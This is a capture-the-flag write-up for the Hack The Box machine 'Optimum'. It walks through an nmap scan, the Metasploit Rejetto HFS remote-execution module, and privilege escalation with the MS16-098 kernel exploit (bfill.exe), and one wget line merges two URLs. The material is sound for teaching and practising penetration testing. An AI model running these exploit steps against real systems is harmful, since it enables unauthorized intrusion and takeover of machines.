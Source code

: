 # Hack the box - Optimum

<img align="left" src="logo.png">
&nbsp;<span style="color:#b5e853; font-weight: bold">OS: <img align="top" src="../../../images/windows.png"> </span><b>Windows</b>
&nbsp;<span style="color:#b5e853; font-weight: bold">IP: </span><b>10.10.10.8</b>

&nbsp;<span style="color:#b5e853; font-weight: bold">Difficulity: </span><b>Easy</b>
&nbsp;<span style="color:#b5e853; font-weight: bold">Release: </span><b>2017 Mar 18</b>

___

## Port scanning
```
nmap -sC -sV -T4 -oA nmap 10.10.10.8
```

![Nmap results](./nmap.png)

There is only web server running.

## Web exploration

On the main page we can see the link to the vendors page:

![Index page](index_page.png)

On the vendors page we can see that it is Rejetto:

![Rejetto](rejetto.png)

## Exploitation

We can check for potential exploits for rejetto:

```
searchsploit rejetto
```

![Searchsploit](searchsploit.png)

One module uses metasploit, let's try to execute it:

```
use exploit/windows/http/rejetto_hfs_exec
set rhosts 10.10.10.8
run
```

![Exploitation](exploitation.png)

## User flag

Great! We have a shell. Now it's time to capture user flag:

![User flag](user_flag.png)

## Privilege escalation

For privilege escalation we can use windows exploit suggester:

![Exploit suggester](exploit_suggester.png)

Script found a lot of potential exploits. 2nd exploit seems to work:

Local:
```
wget https://www.exploit-db.com/download/41020](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS16-098/bfill.exe
```

Target:
```
upload bfill.exe
shell
bfill.exe
```

![Privilege escalation](privilege_escalation.png)

## Root flag

We have system user. Time to capture root flag:

![Root flag](root_flag.png)